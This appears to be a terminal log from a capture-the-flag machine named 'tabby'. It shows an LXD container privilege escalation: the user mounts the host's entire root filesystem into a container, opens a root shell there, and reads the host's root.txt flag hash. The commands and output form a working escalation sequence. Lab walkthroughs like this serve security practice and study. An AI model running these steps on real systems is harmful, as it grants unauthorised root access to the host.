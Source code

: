 ~~~

ash@tabby:~$ lxc config device add rootimage mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to rootimage
ash@tabby:~$ lxc start rootimage
lxc start rootimage
ash@tabby:~$ lxc exec rootimage /bin/bash
lxc exec rootimage /bin/bash
ash@tabby:~$ lxc exec rootimage /bin/sh
lxc exec rootimage /bin/sh
~ # id      
id
uid=0(root) gid=0(root)
~ # pwd     
pwd
/root
~ # ^[[18;5Rls
ls
~ # ls      
ls
~ # ls /    
ls /
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
~ # cd mnt  
cd mnt
/bin/sh: cd: can't cd to mnt: No such file or directory
~ # cd /mnt 
cd /mnt
/mnt # ls      
ls
root
/mnt # cd root    
cd root
/mnt/root # ls       
ls
bin         home        lost+found  root        swap.img
boot        lib         media       run         sys
cdrom       lib32       mnt         sbin        tmp
dev         lib64       opt         snap        usr
etc         libx32      proc        srv         var
/mnt/root # cd root  
cd root
/mnt/root/root # ls       
ls
root.txt  snap
/mnt/root/root # cat root.txt 
cat root.txt
bff2996c088b5d2021b4541486d68aaf
/mnt/root/root # ^[[18;18R
~~~

